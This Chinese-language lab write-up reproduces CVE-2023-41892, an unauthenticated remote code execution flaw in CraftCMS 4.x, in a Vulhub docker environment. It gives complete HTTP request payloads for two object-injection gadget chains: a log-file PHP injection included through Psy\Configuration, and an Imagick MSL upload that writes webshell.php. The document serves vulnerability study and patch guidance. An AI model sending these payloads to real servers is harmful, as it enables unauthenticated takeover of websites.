 # CraftCMS 未授权远程代码执行漏洞 CVE-2023-41892

## 漏洞描述

CraftCMS 是一个灵活、用户友好的内容管理系统，用于在 Web 上创建自定义的数字体验。它为用户提供了一个后端界面来实现网站并配置 CMS。

CraftCMS 4.4.0 至 4.4.14 版本中存在一个远程代码执行漏洞。未经身份验证的攻击者可以通过 `ConditionsController` 实现远程代码执行。该漏洞存在于控制器的 `beforeAction` 方法中，由于输入验证不足，攻击者可以利用该漏洞创建任意对象并实现代码执行。

参考链接：

- https://github.com/craftcms/cms/security/advisories/GHSA-4w8r-3xrw-v25g
- https://blog.calif.io/p/craftcms-rce
- https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/

## 漏洞影响

```
4.0.0-RC1 <= Craft CMS <= 4.4.14
```

## 环境搭建

Vulhub 执行如下命令启动一个存在漏洞的 Craft CMS 4.4.14 环境：

```
docker compose up -d
```

环境启动后，访问 `http://your-ip:8088/admin/install` 即可看到 CraftCMS 的安装页面。请按照页面提示完成安装，默认数据库地址为 `db`，用户名和密码均为 `root`。

![](images/CraftCMS%20未授权远程代码执行漏洞%20CVE-2023-41892/image-20250407153731017.png)

## 漏洞复现

漏洞的根本原因是攻击者可以通过 PHP 对象注入发送特制的 HTTP 请求来创建任意对象。通过链接代码库中的多个 gadget，攻击者可以实现远程代码执行。

有两种常用的 gadget 组合可以实现远程代码执行。

### Gadget 1：使用 `craft\elements\conditions\users\UserCondition` 和 `\Psy\Configuration`

这个 gadget 需要服务器开启日志记录功能，该功能默认是开启的。

首先，发送一个包含语法错误的 JSON 的 POST 请求，将 payload 写入日志文件：

```
POST /index.php?action=conditions/render HTTP/1.1
Host: your-ip:8088
Content-Type: application/json

{
aaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaa
<?php
@phpinfo(); __halt_compiler();
?>
}
```

然后，通过 `\Psy\Configuration` gadget 包含日志文件来触发远程代码执行（请将 `2025-04-07` 替换为当前日期）：

```
POST /index.php?action=conditions/render HTTP/1.1
Host: your-ip:8088
Content-Type: application/json

{
  "config": {
    "name": "test",
    "as xyz": {
      "class": "\\Psy\\Configuration",
      "__construct()": {
        "config": {
          "configFile": "../storage/logs/web-2025-03-31.log"
        }
      }
    }
  },
  "test": "craft\\elements\\conditions\\users\\UserCondition"
}
```

![](images/CraftCMS%20未授权远程代码执行漏洞%20CVE-2023-41892/image-20250407154856527.png)

如图所示，`phpinfo()` 成功执行。

### Gadget 2：使用 `craft\elements\conditions\users\UserCondition` 和内置的 `Imagick` 类

如果服务器启用了 Imagick 扩展，可以使用 `Imagick` 类的 MSL 格式来写入任意文件：

```
POST /index.php?action=conditions/render HTTP/1.1
Host: your-ip:8088
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarytlNPtAxuuGOeUqqY

------WebKitFormBoundarytlNPtAxuuGOeUqqY
Content-Disposition: form-data; name="test"

craft\elements\conditions\users\UserCondition
------WebKitFormBoundarytlNPtAxuuGOeUqqY
Content-Disposition: form-data; name="config[name]"

test
------WebKitFormBoundarytlNPtAxuuGOeUqqY
Content-Disposition: form-data; name="config[as xyz][class]"

imagick
------WebKitFormBoundarytlNPtAxuuGOeUqqY
Content-Disposition: form-data; name="config[as xyz][__construct()][0][0]"

vid:msl:/tmp/php*
------WebKitFormBoundarytlNPtAxuuGOeUqqY
Content-Disposition: form-data; name="file"; filename="1.msl"
Content-Type: text/plain

<?xml version="1.0" encoding="UTF-8"?>
<image>
  <read filename="caption:&lt;?=phpinfo();?&gt;"/>
  <write filename="info:webshell.php" />
</image>
------WebKitFormBoundarytlNPtAxuuGOeUqqY--
```

这个 payload 会执行类似 `new Imagick('vid:msl:/tmp/php*');` 的 PHP 代码，并导致 "Segmentation fault" 错误，使线程崩溃：

![](images/CraftCMS%20未授权远程代码执行漏洞%20CVE-2023-41892/image-20250407155643418.png)

但是 `webshell.php` 文件已经成功写入：

```
http://your-ip:8088/webshell.php
```

![](images/CraftCMS%20未授权远程代码执行漏洞%20CVE-2023-41892/image-20250407155740729.png)

## 漏洞修复

此问题已在 CraftCMS 4.4.15 中修复。更新至 4.4.15 及以上版本。
